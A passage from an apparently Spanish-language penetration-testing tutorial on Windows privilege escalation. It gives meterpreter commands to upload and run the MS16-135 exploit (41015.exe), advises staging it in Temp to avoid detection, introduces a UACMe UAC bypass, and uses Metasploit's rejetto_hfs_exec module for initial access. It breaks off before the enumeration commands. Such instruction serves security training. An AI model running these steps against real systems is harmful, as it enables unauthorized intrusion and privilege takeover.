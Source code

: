 Esto nos devuelve una lista con los exploits más efectivos para este SO en concreto. Buscamos uno para escalada de privilegios en Metasploit. Para este ejemplo, vamos a utilizar MS16-135, y debajo nos aparece el link a un exploit (41015.exe), así que, lo descargamos. 

Ahora, desde la sesión meterpreter, navegamos hasta la raíz con el comando:

```bash
	meterpreter > cd C:\\ # Nos desplazamos a la raíz
	meterpreter > cd Temp\\ # Nos desplazamos al directorio Temp
```

Como vamos a copiar un exploit en el sistema, es recomendable guardarlo en el directorio Temp, tanto en Windows como en Linux, para evitar que nos detecten. A continuación, vamos a cargar el exploit:

```bash
meterpreter > upload /Downloads/41015.exe
```

Cambiamos a una sesión “shell” y ejecutamos el fichero:

```bash
meterpreter > shell
C:\Temp>.\41015.exe
```

Nos pide que indiquemos una versión de Windows. En este ejemplo, elegimos la opción 7 - Windows 7. El nuevo comando sería:

```bash
C:\Temp>.\41015.exe 7
```

Puede tardar unos minutos, y al finalizar, podemos comprobar con el comando “whoami” que ya tenemos permisos elevados.

### Bypassing UAC con UACMe

Esta técnica consiste en evadir el control de cuentas de usuario (UAC) con una herramienta llamada **UACMe**. Es un vector de escalada de privilegios muy eficiente. La técnica y la herramienta utilizadas dependerán de la versión del SO del objetivo y del nivel de integridad del UAC del sistema.

La herramienta UACMe permite a los atacantes ejecutar cargas útiles maliciosas en un objetivo de Windows con privilegios administrativos elevados al abusar de la herramienta **AutoElevate** de Windows (ventana “Ejecutar como administrador”).

Para poder alcanzar privilegios elevados con esta técnica, es necesario tener inicialmente una sesión de un usuario que forme parte del grupo de administradores.

En la máquina de ejemplo que vamos a utilizar, vemos que corre un servidor de archivos por el puerto 80 (rejetto), así que, nos vamos a Metasploit para explotar esta vulnerabilidad y conseguir acceso:

```bash
use exploit/windows/http/rejetto_hfs_exec
```

Una vez obtenida la sesión meterpreter, comenzamos con la escalada de privilegios. Lo primero es realizar una enumeración para identificar la versión de Windows que se está ejecutando en el objetivo, y más datos que nos serán útiles para la escalada. Utilizamos los siguientes comandos:
